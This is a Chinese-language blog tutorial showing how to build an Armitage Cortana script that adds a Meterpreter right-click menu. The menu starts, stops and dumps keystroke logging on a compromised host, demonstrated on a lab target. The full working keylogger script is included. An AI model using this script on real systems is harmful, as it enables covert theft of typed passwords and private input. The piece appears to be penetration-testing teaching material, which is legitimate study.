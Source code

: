 ```yaml
---
layout: post
category: curleyg-code-hack
title: Armitage使用Cortana创建自定义菜单
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: Armitage使用Cortana创建自定义菜单
lock: need
---
```


# Armitage使用Cortana创建自定义菜单

通过Meterpreter会话成功连接到目标计算机之后，Cortana还可以为我们提供构建自定义菜单的功能。这里，我们创建一个监听目标主机键盘操作的自定义菜单

首先创建一个脚本menu.cna，内容如下：

```
popup meterpreter_bottom{
    menu "&My Key Logger"{
        item "&Start Key Logger"{
            m_cmd($1, "keyscan_start");
        }
        item "&Stop Key Logger"{
            m_cmd($1, "keyscan_stop");
        }
        item "&Show Keylogs"{
            m_cmd($1, "keyscan_dump");
        }
        on meterpreter_keyscan_start{
            println(" $3 ");
        }
        on meterpreter_keyscan_stop{
            println(" $3 ");
        }
        on meterpreter_keyscan_dump{
            println(" $3 ");
        }
    }
}
```

这段代码实现了在Meterpreter子菜单中创建一个新的弹出菜单项。不过**只有成功渗透了目标计算机并取得了一个Meterpreter命令行时，这个弹出菜单才是可用的**

关键字popup表示要创建一个弹出式菜单项，而函数meterpreter_bottom表示当用户在目标计算机图标上单击鼠标右键并选中Meterpreter时，这个菜单项就会出现。关键字item制定了菜单中的各个选项。，命令m_cmd会根据它们对应编号的会话将命令发送给Metasploit。

这段代码有三个选项：Start Key Logger、Stop Key Logger和Show Keylogs。分别用来开启键盘监听器、停止键盘监听器以及显示当前记录中的键盘监听数据。我们还声明了三个用来处理发送给Meterpreter的命令输出函数。

在Cortana中载入这个脚本，成功渗透目标计算机，然后在目标计算机的图表上单击鼠标右键，会弹出如下的菜单：

![img](https://img-blog.csdnimg.cn/20190128212228138.png)

这里，我们单击Start Key Logger，在Cortana命令行输出了信息：

![img](https://img-blog.csdnimg.cn/2019012821224894.png)

此时，我们到靶机上利用记事本随便输入几个字符

![img](https://img-blog.csdnimg.cn/20190128212306661.png)

接着我们在Kali上单击Show Keylogs

![img](https://img-blog.csdnimg.cn/20190128212323902.png)

效果如下：

![img](https://img-blog.csdnimg.cn/20190128212339314.png)

可以看到在Cortana命令行输出了我们在靶机上输入的键盘操作。

接着，我们单击Stop Key Logger停止键盘监听

![img](https://img-blog.csdnimg.cn/20190128212402916.png)

效果如下：

![img](https://img-blog.csdnimg.cn/20190128212418824.png)

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
